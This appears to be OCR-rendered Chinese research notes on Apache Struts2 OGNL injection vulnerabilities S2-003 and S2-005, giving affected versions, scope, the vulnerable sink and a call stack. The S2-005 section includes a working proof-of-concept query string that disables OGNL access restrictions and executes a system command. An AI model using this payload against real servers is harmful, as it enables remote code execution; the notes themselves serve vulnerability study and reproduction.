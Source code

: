 特点

1. 用`%{}`包裹的参数值以普通字符串形式压入ValueStack，在`TransformControl.afterBody()`阶段执行`UIBean.evaluateParams()`流程时被再次以`%{}`包裹进行解析，由于低版本XWork2的OGNL递归解析到内层`%{}`，造成RCE

### [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)

触发条件

1. Struts 2.0.0 - 2.0.11.2 && XWork <= 2.0.5

作用域

1. 任意action *（struts-default.xml -> ParametersInterceptor）*

底层G点

``

    [ PoC样本 ]


特点

1. 由于Struts2对`#`等特殊字符做了限制，因此使用了OGNL中`(one)(two)`之类的表达式求值模型绕过

### [S2-005](https://cwiki.apache.org/confluence/display/WW/S2-005) *（S2-003修复绕过）*

*（>> 已完成复现+跟踪调试）*

触发条件

1. Struts 2.0.0 - 2.1.8.1

作用域

1. *（struts-default.xml -> ParametersInterceptor）*

底层G点

`OgnlValueStack.setValue()`

    [ PoC样本 ]
        ?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(vaaa)=true
        &(aaaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023vccc')(\u0023vccc\u003dfalse))
        &(asdf)(('\u0023rt.exec(\'calc\')')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1

    [ 关键调用栈 ]
        -> org.apache.struts2.dispatcher.Dispatcher.serviceAction()
        -> org.apache.struts2.impl.StrutsActionProxy.execute()
        -> com.opensymphony.xwork2.DefaultActionInvocation.invoke()
        -> com.opensymphony.xwork2.interceptor.MethodFilterInterceptor.intercept()
        -> com.opensymphony.xwork2.interceptor.ParametersInterceptor.doIntercept()
        -> com.opensymphony.xwork2.interceptor.ParametersInterceptor.setParameters()
        -> com.opensymphony.xwork2.ognl.OgnlValueStack.setValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.setValue()
